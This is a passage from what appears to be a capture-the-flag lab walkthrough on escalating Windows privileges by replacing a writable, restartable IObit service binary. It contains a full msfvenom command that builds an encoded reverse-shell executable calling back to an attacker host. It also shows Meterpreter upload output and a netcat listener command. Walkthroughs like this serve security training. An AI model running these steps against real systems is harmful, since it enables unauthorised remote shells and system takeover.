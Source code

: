 The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

## What is the root flag?

Use msfvenom to generate a reverse shell as an Windows executable.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.122.222 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```

Upload your binary and replace the legitimate one. Then restart the program to get a shell as root.

1. Replace the following file

```bash
C:\\Program Files (x86)\\IObit\\Advanced SystemCare\\ASCService.exe
```

1. Navigate to the service directory on the target machine (In Meterpreter

```bash
cd 'C:\\Program Files (x86)\\IObit\\'

meterpreter > dir
Listing: C:\\Program Files (x86)\\IObit
=====================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
040777/rwxrwxrwx  32768  dir   2025-10-11 04:59:32 +0000  Advanced SystemCare
040777/rwxrwxrwx  16384  dir   2019-09-27 05:35:24 +0000  IObit Uninstaller
040777/rwxrwxrwx  4096   dir   2019-09-26 15:18:50 +0000  LiveUpdate
```

1. Upload the generated payload to this directory

```bash
meterpreter > upload /root/TOOLS/Advanced.exe
[*] uploading  : /root/TOOLS/Advanced.exe -> Advanced.exe
[*] Uploaded 15.50 KiB of 15.50 KiB (100.0%): /root/TOOLS/Advanced.exe -> Advanced.exe
[*] uploaded   : /root/TOOLS/Advanced.exe -> Advanced.exe
```

1. Load Powershell

```bash
meterpreter > powershell_shell
PS > 
```

1. Start a Netcat Listener

```bash
nc -nvlp 4443
```
